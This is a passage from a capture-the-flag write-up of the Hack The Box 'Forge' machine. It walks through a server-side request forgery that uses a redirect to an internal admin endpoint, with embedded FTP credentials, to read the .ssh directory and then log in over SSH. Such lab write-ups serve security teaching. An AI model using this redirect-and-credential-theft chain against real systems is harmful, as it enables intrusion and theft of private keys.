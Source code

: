 size ![image*](/img/Forge-redirect.png)

1.  I submit `http://10.10.14.6/3?f=.ssh/` as the URL to `/upload` on
    `forge.htb`.
2.  The filter checks, and approves the URL.
3.  `forge.htb` requests `/3?.f=.ssh/` from Flask.
4.  Flask Returns a 302 redirect to
    `http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/`.
    This will send `forge.htb` to `/upload` on `admin.forge.htb`, which
    can handle FTP, with get parameters to connect to the local FTP
    server,
5.  `admin.forge.htb` requests a listing of the `/.ssh/` directory from
    FTP.
6.  FTP returns the result, through `admin.forge.htb` which returns them
    to `forge.htb`.
7.  `forge.htb` saves the results in the `/uploads` directory with a
    random name.
8.  The URL to that saved file is returned to me.

### SSH

The key works to get a shell as user over SSH:



    oxdf@parrot$ ssh -i ~/keys/forge-user user@forge.htb      
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)                   ...[snip]...
    user@forge:~$



## Shell as root

### Enumeration
